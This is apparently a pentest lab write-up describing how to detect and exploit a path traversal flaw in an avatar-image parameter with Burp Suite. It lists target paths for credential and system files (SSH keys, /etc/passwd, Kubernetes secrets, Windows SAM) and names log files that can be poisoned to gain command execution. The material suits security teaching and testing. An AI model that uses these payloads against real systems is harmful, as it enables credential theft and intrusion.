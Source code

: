 # Path traversal

## 1. Detect 

Looking at the URL of the profile picture in the Profile folder, we see that this image is displayed by calling the image name directly in the folder. So think of a possible loophole that is Path Traversal
![image](https://user-images.githubusercontent.com/63194321/132466602-3bee35bd-62d8-4ab1-b019-ec828afa44f3.png)


## 2. Exploit

__Use Burp Suite to make work easy__


__B1. We use Burp Suite to intercept the request to get the avatar image in the Profile section and send it to the Burp Repeater.__

![image](https://user-images.githubusercontent.com/63194321/132466638-cdd3d4df-b4a4-475a-b9a1-0f884eab281e.png)


__B2. We will change the value of the variable "images" instead of returning the name of an image, we can return an arbitrary path. (Depending on how the directory is arranged, the directory path may be different.)__

 ![image](https://user-images.githubusercontent.com/63194321/132466676-c4475297-48d7-4491-b214-c8be26e99ec0.png)

Observe that the returned result is not an image file anymore, but instead will be a result of the etc/passwd file.

### Exploit

Once we have identified this as a Path Traversal vulnerability, we can use payloads depending on the backend to deploy appropriately. We can access and read the data depending on the operating system as follows.

#### •	Linux:

`/etc/issue`

`/etc/passwd`

`/etc/mysql/my.cnf`

`/proc/net/tcp`

`/home/$USER/.bash_history`

`/home/$USER/.ssh/id_rsa`

`/run/secrets/kubernetes.io/serviceaccount/certificate`

`/var/run/secrets/kubernetes.io/serviceaccount`

#### •	Windows

`c:/boot.ini`

`c:/inetpub/logs/logfiles`

`c:/inetpub/wwwroot/global.asa`

`c:/sysprep.inf`

`c:/sysprep.xml`

`c:/system volume information/wpsettings.dat`

`c:/system32/inetsrv/metabase.xml`

`c:/unattend.txt`

`c:/windows/repair/sam`

`c:/windows/repair/system`

Besides, the following log files are controllable and can be included with an evil payload to achieve a command execution

`/var/log/apache/access.log`

`/var/log/apache/error.log`

`/var/log/httpd/error_log`

`/usr/local/apache/log/error_log`

`/usr/local/apache2/log/error_log`

`/var/log/vsftpd.log`

`/var/log/sshd.log`

`/var/log/mail`

Reference
•	https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversa
